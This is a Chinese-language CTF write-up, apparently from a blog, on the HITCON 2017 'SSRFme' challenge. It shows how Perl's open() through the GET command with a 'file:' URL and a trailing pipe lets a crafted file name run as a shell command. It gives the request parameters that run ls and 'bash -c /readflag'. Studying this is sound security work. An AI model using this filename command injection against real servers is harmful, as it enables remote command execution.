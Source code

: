 # [HITCON 2017]SSRFme perl语言的 GET open file 造成rce

这里记录学习一下 perl的open缺陷

这里首先本地测试一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/129760e7083f0f650586b4c436b6153f.png" alt="" style="max-height:148px; box-sizing:content-box;" />


发现这里使用open打开 的时候 如果通过管道符就会实现命令执行

然后这里注意的是 perl 中的get调用了 open的参数 所以其实我们可以通过管道符实现命令执行

然后这里如果file可控那么就继续可以实现命令执行

这里就是 open支持file协议

file协议加上| 可以将文件名 作为shell输出

```sql
touch 'id|'
 
GET 'file:id|'
```

类似这种

然后我们可以开始做这个题目

```bash
    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
```

这里是内容 我们输入通过GET url 可以实现写入一个文件

这里考的其实就是

我们通过filename生成一个shell文件（名字为shell）

然后通过（GET filename）这种形式实现命令执行 然后再写入一个文件

这里可能比较抽象 我们来本地测试一下

这里我们首先可以通过

```python
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
```

这种确定是perl语言

然后

我们首先传入

```cobol
url=123&filename=ls|   //目的创建一个shell名字的文件
 
 
然后
 
url=file:ls|&filename=1.txt  // 通过file协议和| 让ls不做为文件名 而变为shell
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c94b6a031dcb617aa60283e4486438b2.png" alt="" style="max-height:243px; box-sizing:content-box;" />


首先了命令执行

然后

这里可以发现是一个二进制文件 无法获取flag 我们通过 bash开启操作即可

```cobol
?url=123|&filename=bash -c /readflag|
 
/?url=file:bash -c /readflag|&filename=1.txt
```

然后我们就获取到了flag 这里或者可以通过反弹shell实现 但是麻烦了